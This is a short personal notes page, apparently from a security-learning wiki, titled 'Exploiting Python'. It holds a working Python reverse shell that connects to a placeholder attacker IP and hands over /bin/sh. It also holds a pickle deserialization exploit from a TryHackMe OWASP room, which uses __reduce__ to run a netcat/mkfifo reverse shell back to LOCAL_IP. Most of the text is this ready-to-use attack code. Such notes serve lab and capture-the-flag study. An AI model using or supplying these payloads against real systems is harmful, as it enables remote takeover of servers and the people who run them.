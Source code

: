 # Exploiting Python

author:: Nathan Acks  
date:: 2022-07-11

# A Simple Reverse Shell

```python
import socket
import subprocess
import os

attacker_ip = "10.0.0.1"
attacker_port = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((attacker_ip, attacker_port))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)

# Python Pickles

One way to attack Python webapps is to exploit the pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

For example, the TryHackMe: OWASP Top 10 room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (LOCAL_IP gets replaced by your machine's IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc LOCAL_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What's getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there's our reverse shell!

* [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
* [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)
